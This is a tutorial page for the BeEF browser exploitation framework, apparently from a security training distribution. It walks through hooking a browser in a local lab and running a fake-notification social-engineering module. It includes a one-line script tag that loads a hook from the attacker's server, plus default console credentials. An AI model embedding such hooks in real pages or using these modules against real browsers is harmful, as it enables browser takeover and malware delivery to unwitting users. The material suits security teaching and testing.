 
BeEF
============

Website
-------

<https://beefproject.com>

Description
-----------

BeEF, The Browser Exploitation Framework Project is a tool for the pwnage of one of the
underexplored frontiers in information security, the web browser.

Install Location
----------------

`/opt/beef`

Usage
-----

BeEF uses javascript to "hook" one or more browsers before attempting to leverage its access for
further exploitation.

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155680&authkey=ABFf2c6CSDAMzFQ" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen></iframe>

Example 1: Hooking a Web Browser
--------------------------------

First change into the BeEF install directory:

`~$` **`cd /opt/beef`**

Next launch BeEF like so:

`/opt/beef$` **`sudo ./beef`**

        [14:00:53][*] Bind socket [imapeudora1] listening on [0.0.0.0:2000].
        [14:00:53][*] Browser Exploitation Framework (BeEF) 0.4.4.9-alpha
        [14:00:53]    |   Twit: @beefproject
        [14:00:53]    |   Site: http://beefproject.com
        [14:00:53]    |   Blog: http://blog.beefproject.com
        [14:00:53]    |_  Wiki: https://github.com/beefproject/beef/wiki
        [14:00:53][*] Project Creator: Wade Alcorn (@WadeAlcorn)
        [14:00:54][*] BeEF is loading. Wait a few seconds...
        [14:01:14][*] 10 extensions enabled.
        [14:01:14][*] 191 modules enabled.
        [14:01:14][*] 2 network interfaces were detected.
        [14:01:14][+] running on network interface: 127.0.0.1
        [14:01:14]    |   Hook URL: http://127.0.0.1:3000/hook.js
        [14:01:14]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
        [14:01:14][+] running on network interface: 192.168.1.109
        [14:01:14]    |   Hook URL: http://192.168.1.109:3000/hook.js
        [14:01:14]    |_  UI URL:   http://192.168.1.109:3000/ui/panel
        [14:01:14][*] RESTful API key: 4bfb70558017e0a2362021864acd445f0d51882d
        [14:01:14][*] HTTP Proxy: http://127.0.0.1:6789
        [14:01:14][*] BeEF server started (press control+c to stop)

Now that we have BeEF listening for connections let's embed the javascript hook in a page and get
our target to browse to it.

All you need to do to embed the javascript hook on any page is to insert a single line of html
like this:

`<script src='http://192.168.1.109:3000/hook.js'></script>`

So if you have an html page that you would like to embed into, feel free.

However, we have already created a page which performs dynamic embedding of the BeEF hook.


This page is located at: /var/www/adhd/beef/hook.php



Open up a new Firefox instance by either running this command:

`~$` **`firefox & `**

Or by navigating `Launch Menu > Internet > Firefox Web Browser`

![](Beef_files/Image_001.png)

Once you have Firefox running let's visit the target page and get our browser hooked.

Load up [http://127.0.0.1/beef/hook.php](http://127.0.0.1/beef/hook.php)

![](Beef_files/Image_002.png)

You shouldn't see anything more than a default, blank, boring page.

Now open up a new tab and navigate to the BeEF UI.  This can be accomplished by either
directly accessing the url [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)
or by visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_003.PNG)

Authenticate:

    Username:    beef
    Password:    beef

After authentication you should be able to see your hooked browser on the left hand side
under "Online Browsers"

![](Beef_files/Image_004.PNG)

And that's it, you have successfully hooked a web browser.

The browser will remain hooked as long as the tab it has open to your page remains as such.

To see some example of what we can do with a hooked browser, continue on to
[Example 2: Browser Based Exploitation With BeEF].

Example 2: Browser Based Exploitation With BeEF
-----------------------------------------------

Assuming you already have a hooked web browser, let's take a look at some things you can do with it.

Open the BeEF console by either navigating directly to [http://127.0.0.1/ui/panel](http://127.0.0.1/ui/panel)
or visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_004.PNG)

To get started click on your hooked web browser.  This should bring up details about your selected
browser in the multi-tabbed menu on the right of the console.

![](Beef_files/Image_005.PNG)

These details can help you tailor attacks to your victim's browser.

Let's run a few commands.  Select the commands tab.

![](Beef_files/Image_006.PNG)

Now expand the module tree

Select `Social Engineering > Fake Notification Bar (Firefox)`

![](Beef_files/Image_007.png)

This should open up a menu on the right.  Leave all the options default and click `Execute`

![](Beef_files/Image_008.PNG)

After a few seconds, the hooked browser should see something similar to this.

![](Beef_files/Image_009.png)

If they install the plugin, they are pwned.
It should be noted that this method can be used to deliver anything, not just the default
"malicious plugin."  This could easily be leverage to install fully fledged malware on the system,
simply by updating the module options before execution.

There are tons of other modules available in BeEF, don't stop here. Get exploring.

